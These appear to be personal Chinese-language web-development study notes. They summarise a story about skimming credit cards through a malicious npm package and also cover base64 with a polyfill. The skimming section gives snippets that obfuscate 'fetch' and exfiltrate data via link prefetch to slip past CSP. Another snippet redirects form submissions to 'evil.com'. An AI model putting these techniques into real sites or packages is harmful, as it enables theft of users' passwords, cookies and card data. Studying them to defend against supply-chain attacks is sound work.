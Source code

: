 [TOC]



如果图像是内容一部分，就不应该设置成 CSS 的背景图像，而应该使用``标签加上 CSS 的`object-fit`属性。





vulnerability  n. 脆弱性, 漏洞?



XSS攻击 [通过伪造npm包注入恶意攻击代码的虚拟故事](https://medium.com/hackernoon/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5)

1. 写了一个简单的工具js, 然后提交PR到其他开源的仓库

2. 加入伪装的恶意代码(加密压缩过的)

   1. 恶意代码本身非常简单，它在满足以下条件的页面上运行时会执行其最佳工作：

      - 该页面具有`form`
      - 元素匹配或等。`input[type="password"]` `name="cardnumber"` `name="cvc"`
      - 该页面包含“credit card”, “checkout”, “login”, “password”等字。

      然后，当密码/信用卡字段出现`blur`事件或听到表单`submit`事件时，

      - 从页面上的所有表单字段 （`document.forms.forEach(…)`） 中收集数据
      - 抓住`document.cookie`
      - 它把这一切变成一个随机的字符串`const payload = btoa(JSON.stringify(sensitiveUserData))`
      - 然后将其发送到`https://legit-analytics.com?q=${payload}`

   2. 用字符串伪装, 执行函数

      1. ```js
         const i = 'gfudi';
         const k = s => s.split('').map(c => String.fromCharCode(c.charCodeAt() - 1)).join('');
         self[k(i)](urlWithYourPreciousData);
         // “gfudi” is just “fetch” with each letter shifted up by one. 
         // Hard core cryptography right there. 
         // self is an alias for window.
         // 关键是：很难在模糊的代码中发现诡计
         ```

      2. `eval`

      3. `Function`构造函数接受三个参数，除了最后一个参数是`add`函数的“函数体”，其他参数都是`add`函数的参数。

      4. ```js
         url = "http://www.baidu.com/"
         b = "fetch(url)"
         c = Function (b)
         //ƒ anonymous() {
         //	fetch(url)
         //}
         c() // 发送请求
         ```

   3. 其他的安全措施

      1.  the following four lines of code will glide right through even the strictest content security policy.

       ```js
       const linkEl = document.createElement('link');
       linkEl.rel = 'prefetch';
       linkEl.href = urlWithYourPreciousData;
       document.head.appendChild(linkEl);
       ```

      2. 向当前页面发出虚拟请求并读取标题。

      	```js
        fetch(document.location.href)
         .then(resp => {
           const csp = resp.headers.get('Content-Security-Policy');
           // does this exist? Is is any good?
      	});
      	```

      3. 

      ```js
      // 恶意篡改表单的提交地址
      Array.from(document.forms).
      forEach(formEl => formEl.action =`//evil.com/bounce-form`);
      ```

      4. 通过第三方包绕过 code review 添加恶意代码

   


### BFC & 触发BFC



### atob & btoa

```js
btoa('abcdefg') // base64 编码
// "YWJjZGVmZw=="
atob("YWJjZGVmZw==")	// base64 解码
// "abcdefg"
```

**`WindowOrWorkerGlobalScope.btoa()`** 从 [`String`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/String) 对象中创建一个 base-64 编码的 **ASCII 字符串**，其中字符串中的每个字符都被视为一个二进制数据字节。

>  **Note**: 由于这个函数将每个字符视为二进制数据的字节，而不管实际组成字符的字节数是多少，所以如果任何字符的[码位](https://developer.mozilla.org/en-US/docs/Glossary/code_point)超出 `0x00` ~ `0xFF` 这个范围，则会引发 `InvalidCharacterError` 异常。请参阅 [Unicode_字符串](https://developer.mozilla.org/zh-CN/docs/Web/API/WindowBase64/btoa#Unicode_字符串) ，该示例演示如何编码含有码位超出 `0x00` ~ `0xFF` 范围的字符的字符串。

#### Base64 转码

有时，文本里面包含一些不可打印的符号，比如 ASCII 码0到31的符号都无法打印出来，这时可以使用 Base64 编码，将它们转成可以打印的字符。另一个场景是，有时需要以文本格式传递二进制数据，那么也可以使用 Base64 编码。

所谓 Base64 就是一种编码方法，可以将任意值转成 0～9、A～Z、a-z、`+`和`/`这64个字符组成的可打印字符。使用它的主要目的，不是为了加密，而是**为了不出现特殊字符，简化程序的处理**。

JavaScript 原生提供两个 Base64 相关的方法。

- `btoa()`：任意值转为 Base64 编码
- `atob()`：Base64 编码转为原来的值

#### Polyfill

```js
// Polyfill from  https://github.com/MaxArt2501/base64-js/blob/master/base64.js
(function() {
    // base64 character set, plus padding character (=)
    var b64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",

        // Regular expression to check formal correctness of base64 encoded strings
        b64re = /^(?:[A-Za-z\d+\/]{4})*?(?:[A-Za-z\d+\/]{2}(?:==)?|[A-Za-z\d+\/]{3}=?)?$/;

    window.btoa = window.btoa || function(string) {
        string = String(string);
        var bitmap, a, b, c,
            result = "",
            i = 0,
            rest = string.length % 3; // To determine the final padding

        for (; i < string.length;) {
            if ((a = string.charCodeAt(i++)) > 255 ||
                (b = string.charCodeAt(i++)) > 255 ||
                (c = string.charCodeAt(i++)) > 255)
                throw new TypeError("Failed to execute 'btoa' on 'Window': The string to be encoded contains characters outside of the Latin1 range.");

            bitmap = (a << 16) | (b << 8) | c;
            result += b64.charAt(bitmap >> 18 & 63) + b64.charAt(bitmap >> 12 & 63) +
                b64.charAt(bitmap >> 6 & 63) + b64.charAt(bitmap & 63);
        }

        // If there's need of padding, replace the last 'A's with equal signs
        return rest ? result.slice(0, rest - 3) + "===".substring(rest) : result;
    };

    window.atob = window.atob || function(string) {
        // atob can work with strings with whitespaces, even inside the encoded part,
        // but only \t, \n, \f, \r and ' ', which can be stripped.
        string = String(string).replace(/[\t\n\f\r ]+/g, "");
        if (!b64re.test(string))
            throw new TypeError("Failed to execute 'atob' on 'Window': The string to be decoded is not correctly encoded.");

        // Adding the padding if missing, for semplicity
        string += "==".slice(2 - (string.length & 3));
        var bitmap, result = "",
            r1, r2, i = 0;
        for (; i < string.length;) {
            bitmap = b64.indexOf(string.charAt(i++)) << 18 | b64.indexOf(string.charAt(i++)) << 12 |
                (r1 = b64.indexOf(string.charAt(i++))) << 6 | (r2 = b64.indexOf(string.charAt(i++)));

            result += r1 === 64 ? String.fromCharCode(bitmap >> 16 & 255) :
                r2 === 64 ? String.fromCharCode(bitmap >> 16 & 255, bitmap >> 8 & 255) :
                String.fromCharCode(bitmap >> 16 & 255, bitmap >> 8 & 255, bitmap & 255);
        }
        return result;
    };
})()
```